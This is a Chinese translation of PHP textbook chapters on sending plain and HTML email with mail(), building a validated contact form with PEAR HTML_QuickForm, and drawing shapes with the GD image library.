- 2. 使用 mail() 函数发送消息，并传递额外的 MIME 标头，以指示消息正文采用 HTML 格式。

MIME 是 Multipurpose Internet Mail Extensions 的缩写，它是标准电子邮件协议的一种扩展，允许消息包含多个文本和非文本附件等。MIME 也用于其他 Internet 协议；事实上，你在本章前面的“使用 HTTP”部分中已经见过 Content-Type: MIME 标头。

首先，创建你的 HTML 消息正文。在撰写本文时，大多数电子邮件应用程序只理解完整 HTML 标准的一个子集，因此最好让你的标记尽可能简单。CSS 支持尤其糟糕，因此你可能会发现需要放弃 CSS 布局，改用基于表格的布局。

你可以从 http://www.mailchimp.com/resources/templates/ 了解有关创建 HTML 电子邮件的更多信息，以及下载一些免费的 HTML 电子邮件模板。另一个有用的网站是 Email Standards Project (http://www.email-standards.org/)，它跟踪各种电子邮件应用程序中 Web 标准支持的状态。

下面是一个非常简单的 HTML 电子邮件消息：

```php
$message = <<<END_HTML
<html>
<body>
    <h1 style="color: #AA3333;">Thank You</h1>
    <p>Thank you for contacting <a href="http://www.example.com/">The Widget Company</a>. We’ll be in touch shortly.</p>
</body>
</html>
END_HTML;
```

发送这条电子邮件消息的方式与发送纯文本电子邮件大致相同；唯一的区别是你需要在电子邮件消息中包含两个额外的标头：

```
MIME-Version: 1.0
Content-Type: text/html; charset=utf-8
```

MIME-Version: 告诉邮件阅读器应用程序预期将收到 MIME 格式的消息（以及所使用的 MIME 版本），而 Content-Type: 指定要预期的内容类型。在这种情况下，text/html; charset=utf-8 告诉邮件阅读器预期将收到采用 UTF-8（Unicode）字符集编码的 HTML 电子邮件。

因此，要发送刚才所示的 HTML 电子邮件，你可以编写：

```php
$headers = "From: The Widget Company <widgets@example.com>\r\n";
$headers .= "MIME-Version: 1.0\r\n";
$headers .= "Content-type: text/html; charset=utf-8\r\n";
$recipient = "John Smith <johnsmith@example.com>";
$subject = "Thank you for contacting us";
mail( $recipient, $subject, $message, $headers );
```

如果你想在消息中发送多个组件——例如，消息正文的备用纯文本版本，或多个图像附件——你需要创建一个多部分 MIME 消息。多部分内容类型超出了本书的范围，并且比发送单部分电子邮件消息更复杂。但是，Mail_Mime PEAR 包使此过程变得非常容易。有关更多信息，请参见 http://pear.php.net/package/Mail_Mime。

## 试一试：创建联系表单脚本

网站的一个常见要求是“联系我们”表单，访客可以使用它来联系网站所有者。在本示例中，你将创建这样的表单，以及用于处理表单并将结果电子邮件发送给网站所有者的 PHP 代码。

将以下脚本另存为文档根目录中的 contact.php：

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Contact Us</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
.error { background: #d33; color: white; padding: 0.2em; margin: 0.2em 0 0.2em 0; font-size: 0.9em; }
fieldset { border: none; padding: 0; }
ol {list-style-type: none; padding: 0; margin: 0; }
input, select, textarea { float: none; margin: 1em 0 0 0; width: auto; }
div.element { float: right; width: 57%; }
div.element label { display: inline; float: none; }
select { margin-right: 0.5em; }
span.required { display: none; }
</style>
</head>
<body>
<h1>Contact Us</h1>
<?php
require_once ( "HTML/QuickForm.php" );
require_once ( "HTML/QuickForm/Renderer/Tableless.php" );
define( "OWNER_FIRST_NAME", "Michael" );
define( "OWNER_LAST_NAME", "Brown" );
define( "OWNER_EMAIL_ADDRESS", "michael@example.com" );
$form = new HTML_QuickForm( "form", "get", "contact.php", "", array( "style" => "width: 30em;" ), true );
$form->removeAttribute( "name" );
$form->setRequiredNote( "" );
$form->addElement( "text", "firstName", "First name" );
$form->addElement( "text", "lastName", "Last name" );
$form->addElement( "text", "emailAddress", "Email address" );
$form->addElement( "text", "subject", "Message subject" );
$form->addElement( "textarea", "message", "Message", array( "rows" => 10,
  "cols" => 50 ) );
$form->addElement( "submit", "sendButton", "Send Message" );
$form->addRule( "firstName", "Please enter your first name", "required" );
$form->addRule( "firstName", "The First Name field can contain only letters, digits, spaces, apostrophes, and hyphens", "regex", "/^[ \\a-zA-Z0-9]+$/" );
$form->addRule( "lastName", "Please enter your last name", "required" );
$form->addRule( "lastName", "The Last Name field can contain only letters, digits, spaces, apostrophes, and hyphens", "regex", "/^[ \\a-zA-Z0-9]+$/" );
$form->addRule( "emailAddress", "Please enter an email address", "required" );
$form->addRule( "emailAddress", "Please enter a valid email address", "email" );
$form->addRule( "subject", "Please enter a message subject", "required" );
$form->addRule( "subject", "Your subject can contain only letters, digits, spaces, apostrophes, commas, periods, and hyphens", "regex", "/^[ \\a-zA-Z0-9]+$/" );
$form->addRule( "message", "Please enter your message", "required" );

if ( $form->isSubmitted() and $form->validate() ) {
  $form->process( "sendMessage" );
} else {
  echo "<p>Please fill in all the fields below, then click Send Message to send us an email.</p>";
  $renderer = new HTML_QuickForm_Renderer_Tableless();
  $form->accept( $renderer );
  echo $renderer->toHtml();
}

function sendMessage( $values ) {
  $recipient = OWNER_FIRST_NAME . " " . OWNER_LAST_NAME . " <" . OWNER_EMAIL_ADDRESS . ">";
  $headers = "From: " . $values["firstName"] . " " . $values["lastName"] . " <" . $values["emailAddress"] . ">";
  if ( mail( $recipient, $values["subject"], $values["message"], $headers ) ) {
    echo "<p>Thanks for your message! Someone will be in touch shortly.</p>";
  } else {
      echo '<p>Sorry, your message could not be sent.</p>';
      echo '<p>Please <a href="javascript:history.go(-1)">go back</a> to the form, check the fields and try again.</p>';
  }
}
?>
</body>
</html>
```

接下来，将脚本中的网站所有者详细信息更改为你自己的姓名和电子邮件地址：

```php
define( "OWNER_FIRST_NAME", "Michael" );
define( "OWNER_LAST_NAME", "Brown" );
define( "OWNER_EMAIL_ADDRESS", "michael@example.com" );
```

该脚本使用 HTML_QuickForm 和 HTML_QuickForm_Renderer_Tableless PEAR 包来显示和处理联系表单，因此如果你尚未安装，则在运行脚本之前需要安装这两个包。有关此操作的说明，请参见第 15 章。

现在，在 Web 浏览器中访问其 URL 来运行脚本。你应该会看到一个如图 16-4 所示的表单。将你的详细信息、消息主题和消息本身填入表单中，然后单击 Send Message 按钮发送电子邮件。如果一切顺利，你将看到一个确认页面，电子邮件应在几分钟后到达你的收件箱中。


图 16-4


如果您没有收到电子邮件，可以检查以下事项：

- [ ] 确保您已正确指定 `OWNER_EMAIL_ADDRESS` 的值
- [ ] 查看垃圾邮件文件夹，看看电子邮件是否进入了那里
- [ ] 如果可能，请查看邮件服务器的日志，了解电子邮件的情况。可能您的 ISP 服务器将其当作垃圾邮件并自动删除了。如果在邮件日志中找不到该消息的任何记录，请检查您的 PHP 配置

## 工作原理

该脚本首先输出 XHTML 标头，包括用于自定义表单外观的 CSS。接下来，加载 `HTML_QuickForm` 和 `HTML_QuickForm_Renderer_Tableless` PEAR 包，并使用常量指定网站所有者详细信息；发送电子邮件时，这些详细信息将用作收件人详细信息：

```php
require_once( "HTML/QuickForm.php" ) ;
require_once( "HTML/QuickForm/Renderer/Tableless.php" ) ;
define( "OWNER_FIRST_NAME", "Michael" ) ;
define( "OWNER_LAST_NAME", "Brown" ) ;
define( "OWNER_EMAIL_ADDRESS", "michael@example.com" ) ;
```

然后，脚本通过创建 `HTML_QuickForm` 对象来设置联系表单。表单使用 `post` 请求方法并将数据发送回 `contact.php`。传递给构造函数的 `true` 参数会创建一个隐藏表单字段，以便脚本可以判断表单何时已提交。此外，从表单中删除 `name` 属性以使其符合 XHTML 标准，并禁用“必填字段”提示（因为所有字段都是必填的）：

```php
$form = new HTML_QuickForm( "form", "post", "contact.php", "", array( "style" => "width: 30em;" ), true ) ;
$form->removeAttribute( "name" ) ;
$form->setRequiredNote( "" ) ;
```

然后，将各种表单字段和验证规则添加到表单中。字段包括发件人的名、姓和电子邮件地址，以及消息主题和消息正文。验证规则确保 `firstName`、`lastName`、`emailAddress` 和 `subject` 字段只输入有效字符。在创建表单到电子邮件脚本时，此验证非常重要，因为这使得垃圾邮件发送者更难利用您的联系表单发送任意电子邮件。

在此示例中，`subject` 表单字段的验证规则非常严格。在实际情况中，您可能希望允许其他字符，例如 ?（问号）和 !（感叹号）。但是，绝对不能在发件人电子邮件地址和消息主题等字段中允许回车符（`\r`）或换行符（`\n`）字符，这一点非常重要，因为这会让垃圾邮件发送者将其他标头（例如额外的收件人）插入电子邮件消息中。

接下来，脚本确定表单是否已提交且有效。如果是，则通过调用 `sendMessage()` 函数（稍后介绍）对其进行处理。否则，显示表单（如果已提交，则重新显示）：

```php
if ( $form->isSubmitted() && $form->validate() ) {
    $form->process( "sendMessage" );
} else {
    echo "<p>Please fill in all the fields below, then click Send Message to send us an email.</p>";
    $renderer = new HTML_QuickForm_Renderer_Tableless();
    $form->accept( $renderer );
    echo $renderer->toHtml();
}
```

最后，sendMessage() 函数处理实际的电子邮件发送。首先，它根据所有者的名、姓和电子邮件地址构建收件人字符串，并将 From: 地址详细信息设置为访问者在表单中提供的内容：

```php
$recipient = OWNER_FIRST_NAME . " " . OWNER_LAST_NAME . " <" . OWNER_EMAIL_ADDRESS . ">";
$headers = "From: " . $values["firstName"] . " " . $values["lastName"] . " <" . $values["emailAddress"] . ">";
```

然后，该函数调用内置 mail() 函数，传入收件人字符串、提供的消息主题和正文，以及其他邮件标头（即 From: 地址）：

```php
if ( mail( $recipient, $values["subject"], $values["message"], $headers ) ) {
```

如果消息发送成功，将显示确认；否则将显示错误消息，并邀请访问者再试一次。

得益于 PHP 的 `mail()` 函数，本示例展示了构建表单到电子邮件脚本是多么容易。您可以使用相同的技术来创建其他电子邮件函数，例如“告诉朋友”脚本和密码提醒函数。

## 摘要

在本章中，您探索了各种概念和 PHP 特性，可用于编写与外部世界交互的应用程序：

- **日期和时间函数及类：** 您探索了时间戳和 UTC 的概念，并学习了如何使用 time() 检索当前时间戳。您还了解了如何使用 mktime()、gmmktime() 和 strtotime() 函数创建自己的时间戳，以及如何使用 getdate() 从时间戳中提取信息。您学习了如何使用 idate() 和 date() 格式化日期，如何使用 checkdate() 检查日期是否格式正确，以及如何通过使用 microtime() 更精确地处理时间戳。最后，您通过一个计算以天为单位的年龄的脚本将理论付诸实践，并简要了解了 PHP 相对较新的 DateTime 和 DateTimeZone 类，用于处理日期和时间
- **HTTP 请求和响应：** 您了解了 Web 浏览器和服务器如何使用 HTTP 进行通信。您研究了 HTTP 请求和响应的结构，并查看了浏览器和服务器之间发送的一些常见标头。最后，您了解了如何在 PHP 脚本中修改 HTTP 响应，以及如何使用此功能重定向浏览器、返回特定状态码，并将非 HTML 内容发送回浏览器
- **服务器和脚本信息：** 您发现，通过从 `$_SERVER` 超全局数组中读取值，可以检索有关 Web 服务器和当前脚本的有用信息，例如访问者的 IP 地址、浏览器发送的 HTTP 标头以及脚本的位置。
- **发送电子邮件消息：** 您了解了如何使用 PHP 的 `mail()` 函数发送电子邮件，以及如何撰写纯文本和 HTML 电子邮件消息。您了解了如何向消息添加自定义标头，以及如何将其他命令行参数传递给邮件传输代理。然后，您利用这些知识构建了一个简单的“联系我们”表单，允许访问者向网站所有者发送电子邮件消息。

您现在有能力编写 PHP 脚本，其功能远不止向 Web 浏览器发送 HTML 页面。在下一章中，您将延续此主题，创建能够即时生成和显示图像的 PHP 脚本。同时，尝试完成以下两个练习来测试您对 PHP 日期处理和电子邮件发送函数的了解。这些练习的解答可在附录 A 中找到。

## 练习

1. 编写一个 PHP 函数，接受一个四位数的年份和一个月份编号（1–12），并返回给定月份中的工作日（周一至周五）数量。使用该函数计算 1997 年 3 月的工作日数量并显示结果。

2. 修改本章中的 `contact.php` 联系表单脚本，以允许访问者向任何人（而不仅仅是网站所有者）发送电子邮件。包含其他功能，允许访问者将电子邮件抄送给可选的密件副本（CC）收件人。（顺便说一句，此类脚本很容易被垃圾邮件发送者利用，因此不应放置在公共可访问的 Web 站点上。）

## 使用 PHP 生成图像

使用 PHP 动态创建 HTML 页面可以让您做一些相当巧妙的事情，如前几章所示。但是，有些任务 HTML 不适合处理，例如显示图形信息。此外，由于图像在 Web 上经常被使用，通常需要操作图像文件——例如，调整大小或向其添加文本。

幸运的是，PHP 包含一系列函数，可让您创建、打开、操作和输出图像——无论是发送到 Web 浏览器还是保存到磁盘。在本章中，您将了解这些函数的工作原理以及如何使用它们为您的页面创建动态图形。在本章中，您将：

- 探索在创建图像前需要了解的一些基本概念，例如色彩理论以及 PHP 中图像坐标系统的工作原理
- 学习使用 PHP 的绘图工具从头开始构建自己的图像，在图像上绘制线条、曲线和其他形状
- 了解如何处理现有图像，例如向图像添加水印、创建缩略图和添加文本

PHP 使用的图像函数基于 Tom Boutell（www.boutell.com）开发的 GD 图像库。GD 库的代码与 PHP 安装一起提供，并包含对原始代码的一些增强。使用 PHP 中包含的 GD 版本，您可以执行绘制线条、椭圆和矩形；填充图像区域；在图像中创建文本；以及读取和写入 JPEG、PNG、WBMP、XBM 和 GIF 图像文件等操作。这使您能够使用 PHP 脚本创建和操作相当复杂的图像，如本章所示。

### 计算机图形基础

在 PHP 中创建图像之前，您需要了解一些基本的图像相关概念。以下部分将解释色彩理论和 RGB 颜色模型；探讨图像坐标的工作原理；并简要讨论不同的图像类型。


## 颜色理论

计算机通常使用一种称为 RGB 模型的颜色理论模型来创建颜色。RGB 代表红色、绿色和蓝色，这是三种基本颜色，组合在一起创建你在计算机显示器上看到的颜色。RGB 模型被称为加色模型，因为不同量的红色、绿色和蓝色组合在一起创建最终颜色。

每个红色、绿色或蓝色分量通常具有 0 到 255（最大量）之间的值。纯蓝色的 RGB 值为 0,0,255 — 红色和绿色值为空（零）且蓝色值设置为最大值 255。因此，在标准 RGB 图像中你可以找到的最大颜色数量为 1670 万 — 256 × 256 × 256。

当红色、绿色和蓝色三个分量都设置为零时，你就得到了完全没有颜色的状态 — 黑色。相反，将所有值都设置为最大值 255 会得到白色。

在本章中，你将使用基于调色板的 8 位图像，这允许你在任一图像中使用最多 256 种可用颜色（共 1670 万种）。你还将使用 24 位图像 — 即真彩色图像 — 它在单个图像中支持完整的 1670 万种颜色范围。

## 坐标系统

当你在图像中绘制形状和文本时，需要通过指定坐标来定位它们。如果你有数学背景，你已经熟悉一种图表布局，其中 x 和 y 坐标从左下角向右和向上辐射，如图 17-1 所示。


图 17-1

另一方面，使用 PHP 图像函数时，坐标从左上角向右和向下辐射，如图 17-2 所示。


图 17-2

左上角的像素位于 (0,0) 位置。这意味着，对于 300×200 像素的图像，右上角像素位于 (299,0)，左下角像素位于 (0,199)，右下角像素位于 (299,199)，如图 17-3 所示。


## 图像类型

计算机通常处理两种类型的图像：位图和矢量图。*位图*（也称为位图图像）由像素数据组成；在一个宽 20 像素、高 20 像素的彩色图像中，有 400 个单独的像素组成图像，每个像素都有自己的 RGB 颜色值。相比之下，*矢量*图像使用数学方程来描述构成图像的形状。SVG（可缩放矢量图形）格式是矢量图的一个很好的示例。*矢量*图像非常适合包含线条、曲线和色块的图表，但不适合照片或细节丰富的图像。

在本章中，你将专注于使用位图，它们在 Web 上更为常见。PHP 的 GD 图像函数允许你使用四种主要的位图格式 — JPEG、PNG 和 GIF 用于桌面 Web 浏览器，以及 WBMP 图像用于移动浏览器。（在本章中，你专注于桌面 Web 图像。）

这四种图像格式都是*压缩*格式，这意味着它们使用数学算法来减少描述图像所需的存储量。它们在保持文件大小小和下载时间短方面起着关键作用！

了解何时使用每种图像格式很重要。尽管它们都是位图，但使用了非常不同的压缩技术，在某些情况下，一种格式的效果远比另一种好。

JPEG 格式使用*有损*压缩，其中原始图像的一些数据在压缩过程中丢失。该格式设计用于最佳处理照片等图像，这类图像有大量细微的阴影和少量大面积的单一颜色。当画质的轻微损失对观看者来说不太明显时，应使用这种格式。

另一方面，PNG 和 GIF 格式中的图像采用无损方式压缩，这意味着在压缩过程中不会丢失任何图像数据。清晰的边缘和直线（在 JPEG 压缩下会受损）会被忠实地再现。这种技术最适合包含线条和大面积色块的图像 — 例如卡通和图表。

## 创建图像

现在你了解了一些基本图像概念，可以开始编写脚本来生成图像。在 PHP 中创建图像需要四个步骤：

- 1. 为 PHP 创建一个空白画布来处理。这是 Web 服务器内存中预留用于绘制的一个区域。
- 2. 处理绘制所需图像的相关步骤。这包括设置颜色以及在图像中绘制所需的形状和文本。
- 3. 将完成的图像发送到 Web 浏览器或保存到磁盘。
- 4. 从服务器内存中删除你的图像。

## 创建新图像

要做的第一件事是创建一个新的空白画布来存储你的新图像。为此，你可以使用 `imagecreate()` 函数，它创建一个最多 256 色的 8 位调色板图像；或者使用 `imagecreatetruecolor()` 函数，它创建一个可包含多达 1670 万种颜色的 24 位真彩色图像。`imagecreate()` 和 `imagecreatetruecolor()` 函数都接受两个参数：要创建的空白图像的宽度和高度。例如：

```
$myImage = imagecreate( 200, 150 );
```

此代码创建的空白图像宽 200 像素，高 150 像素。

两个函数都返回一个图像资源（示例中存储在 `$myImage` 中），该资源指向内存中的图像。然后将此图像资源传递给其他图像函数，以便它们知道要处理哪个图像。

## 分配颜色

在开始在空白图像上绘制之前，你需要决定要使用的颜色，然后使用 `imagecolorallocate()` 函数来创建颜色。该函数接受四个参数：由 `imagecreate()` 或 `imagecreatetruecolor()` 创建的图像资源，以及你想要创建的颜色的红色、绿色和蓝色分量。每个分量可以有 0 到 255 之间的值。

例如，以下代码创建一种绿色并将其存储在名为 `$myGreen` 的变量中：

```
$myGreen = imagecolorallocate( $myImage, 51, 153, 51 );
```

`imagecolorallocate()` 函数返回一个颜色标识符，指向新创建的颜色。然后你可以将此标识符与各种绘图函数一起使用，如你稍后将看到。

如果颜色分配空间已满怎么办？如果使用 `imagecreate()` 创建的调色板图像已经包含 256 种颜色，且没有空间分配新颜色，就会发生这种情况。在这种情况下，`imagecolorallocate()` 返回 `false`。

使用 imagecreatetruecolor() 创建的真彩色图像可以容纳尽可能多的不同颜色 — 超过 1600 万种 — 因此不受调色板限制。

为了绕过这个问题，你可以使用 imagecolorresolve() 函数，它始终返回一个有效的颜色标识符。imagecolorresolve() 函数接受与 imagecolorallocate() 函数相同的参数，但与 imagecolorallocate()（它只是尝试将请求的颜色分配到图像调色板中）不同，imagecolorresolve() 函数首先查看你请求的颜色是否已存在于调色板中。如果存在，该函数只需返回该颜色的颜色索引。如果不存在，该函数尝试将你请求的颜色添加到调色板中。如果成功，它返回调色板中的颜色标识符。如果失败，它会查看调色板中所有现有颜色，并返回调色板中与你想要的颜色最接近的颜色的颜色标识符。

你可以为每个处理的图像创建任意数量的颜色（对于基于调色板的图像，上限为 256 种颜色）。第一个分配给基于调色板的图像（由 imagecreate() 函数创建）的颜色用作该图像的背景色。使用 imagecreatetruecolor() 函数创建的真彩色图像带有黑色背景；之后由你来根据需要为其着色。

## 输出图像

一旦你在内存中有一个图像，如何输出它？你只需调用三个函数之一：

- imagejpeg() 以 JPEG 格式输出图像
- imagegif() 以 GIF 格式输出图像
- imagepng() 以 PNG 格式输出图像

PHP 也可以以其他格式输出图像，但这些是你日常最可能使用的三种。

每个函数接受要输出的图像资源，以及一个可选的文件名来保存图像文件。例如，以下是将图像保存为 JPEG 文件的方法：

```
imagejpeg( $MyImage, "myimage.jpeg" );
```

如果你想直接将图像发送到浏览器，请省略文件名参数，或将其设置为 null。你还需要发送适当的 HTTP 标头，以便浏览器知道如何处理图像。例如，要以 JPEG 格式显示图像，请使用：

```
header( "Content-type: image/jpeg" );
imagejpeg( $MyImage );
```

要以 GIF 格式显示图像，请使用：

```
header( "Content-type: image/gif" );
imagegif( $myImage );
```

最后，要以 PNG 格式显示图像，请使用：

```
header( "Content-type: image/png" );
imagepng( $myImage );
```


*上一章已介绍 HTTP 标头和 header() 函数。*

这些函数在图像成功输出时返回 true，如果出现问题则返回 false。

imagejpeg() 函数接受一个可选的第三个参数，用于指定最终图像的压缩级别或质量。这是介于 0（最大压缩）和 100（最高质量）之间的整数。默认值约为 75，这通常是文件大小和图像质量之间的一个良好折衷。如果你想节省带宽，可能会像这样向浏览器发送一张低质量的 JPEG 图像：

```
header( "Content-type: image/jpeg" );
imagejpeg( $myImage, null, 50 );
```

同样，你可以将压缩级别作为可选的第三个参数传递给 imagepng()。PNG 压缩级别范围是 0（无压缩）到 9（最大压缩）。PNG 是一种无损格式，因此图像无论压缩级别如何看起来都一样；不过，较高的压缩级别通常会产生更小的文件大小（尽管创建图像需要更长时间）。默认压缩级别为 6，这对大多数场景都足够了。

当你处理完图像后，应将其从内存中移除，以便将内存用于其他用途。为此，请调用 imagedestroy() 函数，并传入要删除的图像资源：

```
imagedestroy( $myImage );
```

imagedestroy() 在图像成功删除时返回 true，如果出现问题则返回 false。

## 在图像中绘图

一旦你分配好了要用于绘图的颜色，就可以在空白画布上开始绘图了。PHP 提供了用于绘制点、线、矩形、椭圆、圆弧和多边形的函数。

PHP 中所有绘图函数的参数模式都类似。第一个参数始终是你要在其上绘图的图像资源。接下来的参数数量不等，但始终是你需要提供的 x 和 y 像素位置，以绘制你想要的形状。例如，如果你只绘制一个像素，只需提供一个 x 坐标和一个 y 坐标；但如果要绘制一条线，则需要提供线条起点和终点的 x 和 y 坐标。最后一个参数始终是你要用于绘图的颜色。

### 绘制单个像素

要为画布上的一个像素着色，请使用 imagesetpixel() 函数：

```
imagesetpixel( $myImage, 120, 60, $myBlack );
```

这会为图像 $myImage 左上角向右 120 像素、向下 60 像素处的像素着色。它将该像素设置为由 $myBlack 标识的颜色。图 17-4 显示了该单个像素在图像中的布局。


### 绘制线条

要在图像中绘制线条，请使用 imageline() 函数。线条有起点和终点，因此你必须向 imageline() 提供两组坐标。例如：

```
imageline( $myImage, 10, 10, 100, 100, $myColor );
```

### 尝试绘制一条线

在这个简单示例中，你将在两点之间绘制一条直线，然后将生成的图像输出到浏览器。将以下代码保存为文档根目录下的 line.php：

```
<?php
$myImage = imagecreate( 200, 100 );
$myGray = imagecolorallocate( $myImage, 204, 204, 204 );
$myBlack = imagecolorallocate( $myImage, 0, 0, 0 );
imageline( $myImage, 15, 35, 120, 60, $myBlack );
header( "Content-type: image/png" );
imagepng( $myImage );
imagedestroy( $myImage );
?>
```

现在通过在 Web 浏览器中打开其 URL 来运行脚本。图 17-5 显示了输出。


如果你在 Windows 上运行 PHP 并收到“Call to undefined function imagecreate()”错误消息，则需要启用 GD2 扩展。为此，请编辑 php.ini 文件，并从以下行开头删除分号：

```
;extension=php_gd2.dll
```

更改此设置后，请记得重启服务器。

在 Linux 和 Mac OS X 等其他系统上，这些步骤通常不是必需的，因为 GD2 库通常与这些系统上的 PHP 引擎一起提供。更多信息请参见 http://www.php.net/manual/en/image.installation.php。

### 工作原理

脚本首先使用 imagecreate() 创建一个新的空白图像，并将图像资源存储在 $myImage 中。然后它分配两种颜色——一种是灰色，一种是黑色。因为先分配灰色，所以它被用作图像的背景色。接下来，脚本调用 `imageline()` 函数来绘制线条。第一个参数是图像资源。接下来的两个参数告诉 `imageline()` 函数线条从哪里开始——在此示例中，是从左上角向右 15 像素、向下 35 像素处。然后，接下来的两个参数告诉函数线条在哪里结束——在示例中，是向右 120 像素、向下 60 像素处。最后一个参数当然是绘制线条所用的颜色。

绘制图像后，脚本调用 `header()` 和 `imagepng()` 函数将图像输出到 Web 浏览器。最后，通过调用 `imagedestroy()` 函数将图像从内存中移除。

### 绘制矩形

要绘制矩形，你只需在画布上指定两个位置：矩形的两个相对角。因此，`imagerectangle()` 函数的语法与 `imageline()` 函数完全相同。对于 `imagerectangle()`，你提供的两个坐标被用作矩形的相对角。

要尝试此功能，请打开你刚刚创建的 `line.php` 文件，并将其另存为 `rectangle.php`。将以下行：

```
imageline( $myImage, 15, 35, 120, 60, $myBlack );
```

替换为以下行：

```
imagerectangle( $myImage, 15, 35, 120, 60, $myBlack );
```

正如你所看到的，传递给 `imagerectangle()` 函数的参数与绘制线条示例中使用的参数完全相同。将文件另存为 `rectangle.php`，并在 Web 浏览器中打开脚本的 URL。图 17-6 显示了此代码生成的图像。


如果你在代码中保留了 `imageline()` 调用，则会得到图 17-7 所示的输出。


### 绘制圆形和椭圆

在 PHP 中绘制圆形和椭圆，请使用 imageellipse() 函数。它与 imagerectangle() 和 imageline() 函数的工作方式不同，因为你不提供形状的外部边界。相反，你通过提供其中心点，然后指定椭圆的高度和宽度来描述椭圆。

例如：

```
imageellipse( $myImage, 90, 60, 160, 50, $myBlack );
```

此椭圆（如图 17-8 所示）的中心位于像素 (90,60) 处。椭圆的宽度为 160 像素，高度为 50 像素。

要绘制圆形，只需描述一个宽度和高度相同的椭圆（见图 17-9）：

```
imageellipse( $myImage, 90, 60, 70, 70, $myBlack );
```


图 17-8


图 17-9

### 绘制圆弧

圆弧是一个不闭合的部分椭圆。要绘制圆弧，请调用 imagearc() 函数。

描述圆弧的方式与描述椭圆相同，只不过你需要添加两个参数来说明圆弧的起点和终点。你以度数指定起点和终点（一个完整的椭圆有 360 度）。零度位置位于椭圆的最右侧——时钟表盘上的 3 点钟位置，如图 17-10 所示。度数按顺时针方向递增：


图 17-10

以下是使用 imagearc() 函数绘制部分椭圆的示例：

```
imagearc( $myImage, 90, 60, 160, 50, 45, 200, $myBlack );
```

第一个参数 $myImage 标识你正在绘制的图像。接下来的两个参数（90 和 60）指定圆弧应遵循的椭圆的中心点。宽度和高度参数 160 和 50 与前面椭圆示例中的相同。接下来的两个参数真正创建了圆弧：45 告诉函数从 45 度位置开始绘制圆弧（如果是时钟，则为 4:30 位置），而 200 是圆弧应结束的度数位置。请记住，200 度是结束点，而不是绕椭圆旋转的度数。图 17-11 显示了从 45 度到 200 度绘制的圆弧。


图 17-11

图中的圆弧可能看起来奇怪，但请记住，圆弧是沿你提供的宽度和高度所描述的椭圆绘制的。将此圆弧与你之前使用相同宽度和高度参数绘制的椭圆（见图 17-8）进行比较。

### 绘制多边形

多边形是具有三个或更多角的形状。要绘制多边形，请使用 imagepolygon() 函数。除了将图像资源传递给函数外，你还需要传递一个定义多边形角点的点数组。你还需要告诉函数多边形中有多少个点。最后，与其他绘图函数一样，你传入要使用的颜色。

请查看以下代码：

```
$myPoints = array( 20, 20, 185, 55, 70, 80 );
imagepolygon( $myImage, $myPoints, 3, $myBlack );
```


这个示例创建了一个名为 $myPoints 的多边形点数组。数组中有六个元素，即三组 x/y 坐标对。这意味着该多边形有三个角，分别位于 (20, 20)、(185, 55) 和 (70, 80)。

代码接着调用 `imagepolygon()` 函数，并传递以下参数：

- 1. 图像资源。
- 2. 点数组。
- 3. 多边形中的点数。
- 4. 用于绘制形状的颜色。

图 17-12 显示了示例多边形。


顺便提一句，如果你想创建填充形状，可以使用 `imagefilledrectangle()`、`imagefilledellipse()`、`imagefilledarc()` 和 `imagefilledpolygon()` 等函数。了解更多信息，请访问 http://www.php.net/manual/en/ref.image.php。

## 尝试一下：绘制带圆角的矩形

既然你已经知道如何绘制直线和弧线，现在可以创建一个实用函数来绘制圆角矩形。将以下脚本保存为 `rounded_rectangle.php`，并在浏览器中打开其 URL：

```
<?php
function roundedRectangle( $image, $x1, $y1, $x2, $y2, $curveDepth, $color )
{
	// Draw the four sides
	imageline( $image, ($x1 + $curveDepth), $y1, ($x2 - $curveDepth), $y1,
	$color );
	imageline( $image, ($x1 + $curveDepth), $y2, ($x2 - $curveDepth), $y2,
	$color );
	imageline( $image, $x1, ($y1 + $curveDepth), $x1, ($y2 - $curveDepth),
	$color );
	imageline( $image, $x2, ($y1 + $curveDepth), $x2, ($y2 - $curveDepth),
	$color );

	// Draw the four corners
	imagearc( $image, ($x1 + $curveDepth), ($y1 + $curveDepth), (2 *
	$curveDepth), (2 * $curveDepth), 180, 270, $color );
	imagearc( $image, ($x2 - $curveDepth), ($y1 + $curveDepth), (2 *
	$curveDepth), (2 * $curveDepth), 270, 360, $color );
	imagearc( $image, ($x2 - $curveDepth), ($y2 - $curveDepth), (2 *
	$curveDepth), (2 * $curveDepth), 0, 90, $color );
	imagearc( $image, ($x1 + $curveDepth), ($y2 - $curveDepth), (2 *
	$curveDepth), (2 * $curveDepth), 90, 180, $color );
}
// An example rectangle
$myImage = imagecreate( 200,100 );
$myGray = imagecolorallocate( $myImage, 204, 204, 204 );
$myBlack = imagecolorallocate( $myImage, 0, 0, 0 );
roundedRectangle( $myImage, 20, 10, 180, 90, 20, $myBlack );
header( "Content-type: image/png" );
imagepng( $myImage );
imagedestroy( $myImage );
?>
```

图 17-13 显示了脚本的输出。


图 17-13

## 工作原理

这里的内容你在过去几页中都已经见过；创建圆角矩形的唯一诀窍在于理解如何组合直线和弧线，以获得想要的效果。

脚本首先创建一个绘制圆角矩形的函数。通过将代码存储在函数中，如果你想绘制尺寸不同的其他圆角矩形，以后可以重复使用。该函数有七个参数：

```
function roundedRectangle( $image, $x1, $y1, $x2, $y2, $curveDepth, $color )
```

第一个参数是要在其中绘制矩形的图像资源。接下来的两个参数指定矩形的左上角，再接下来的两个参数用于矩形的右下角。（函数并不会实际在这些点上绘制任何内容，因为它绘制的是带有圆角的矩形，但这些点作为矩形角点的锚点。）第六个参数 $curveDepth 是曲线在每条矩形边结束前开始的像素数。最后一个参数当然是矩形的颜色。图 17-14 显示了传递给 roundedRectangle() 函数的参数如何使用。


图 17-14

函数首先绘制矩形顶部的一条线。它不会从 $x1 绘制到 $x2 的整条线，因为必须考虑角点的圆曲线。为此，它将 $curveDepth 值加到 $x1 位置，并从 $x2 位置减去该值：

```
imageline( $image, ($x1 + $curveDepth), $y1, ($x2 - $curveDepth), $y1,
$color );
```

由于线条是水平的，两个点使用相同的 y 位置。下一条线以类似方式沿矩形底部延伸：

```
imageline( $image, ($x1 + $curveDepth), $y2, ($x2 - $curveDepth), $y2,
$color );
```

